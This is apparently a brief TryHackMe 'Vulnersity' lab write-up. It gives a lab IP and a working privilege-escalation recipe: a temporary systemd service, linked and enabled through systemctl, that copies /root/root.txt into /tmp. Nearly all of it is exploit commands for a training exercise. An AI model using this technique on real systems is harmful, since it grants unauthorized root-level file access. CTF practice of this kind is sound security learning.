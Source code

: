 # TryHackMe Vulnersity

IP=10.10.93.0



`eop=$(mktemp).service`
```
echo '[Service]
ExecStart=/bin/sh -c "cat /root/root.txt > /tmp/output"
[Install]
WantedBy=multi-user.target' >$eop
```
`/bin/systemctl link $eop`
`/bin/systemctl enable --now $eop`
